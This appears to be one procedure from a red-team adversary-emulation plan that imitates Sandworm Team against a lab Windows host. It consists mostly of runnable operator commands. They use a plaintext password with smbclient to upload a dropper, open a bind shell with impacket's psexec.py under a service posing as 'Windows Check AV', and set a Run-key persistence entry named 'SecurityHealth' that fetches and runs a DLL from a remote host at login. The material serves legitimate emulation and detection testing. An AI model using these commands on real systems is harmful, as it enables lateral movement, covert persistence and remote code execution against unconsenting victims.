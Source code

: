 ### :biohazard: Procedures

:warning: Go back to your first terminal tab (P.A.S. Webshell); re-name it "PsExec-Gammu".

Upload Exaramel-Windows-Dropper.exe to gammu/10.0.1.7 as `C:\Windows\wsmprovav.exe`.

```bash
# Sandworm Team has pushed additional malicious tools onto an infected system to steal user credentials, move laterally, and destroy data.

# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

smbclient -U 'WORKGROUP\fherbert' //10.0.1.7/ADMIN$ -c "put sandworm/Resources/Exaramel-Windows-Dropper/wsmprovav.exe wsmprovav.exe;" "Whg42WbhhCE17FEzrqeJ"
```

**Note**: `smbclient` may produce the following message: `Unable to initialize messaging context.` This message can be safely ignored.

Use psexec.py to gain a bind-shell to gammu/10.0.1.7 over SMB (TCP 445):

```bash
# Sandworm-associated malware including Olympic Destroyer, BlackEnergy, and notPetya use PsExec to interact with the ADMIN$ network share to execute commands on remote systems.

# The Exaramel for Windows dropper creates and starts a Windows service named wsmprovav with the description "Windows Check AV."

/usr/share/doc/python-impacket/examples/psexec.py -service-name "Windows Check AV" WORKGROUP/fherbert@10.0.1.7
```

Enter password:

`Whg42WbhhCE17FEzrqeJ`

:warning: Observe the PsExec binary name, and paste it in the Slack chat for easy identification:

```bash
# Your EXE name will differ

[*] Uploading file enTHfBuw.exe
```

Load the registry hive for user fherbert.

```bash
reg.exe LOAD HKU\Temp "C:\Users\fherbert\NTUSER.DAT"
```

Set registry persistence for user fherbert only.

This will execute a Exaramel-Windows dropper on fherbert login.

```bash
# Sandworm associated malware such as Exaramel-Windows and Olympic Destroyer have modified the registry.

# Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.
```
```bash
reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll"
```
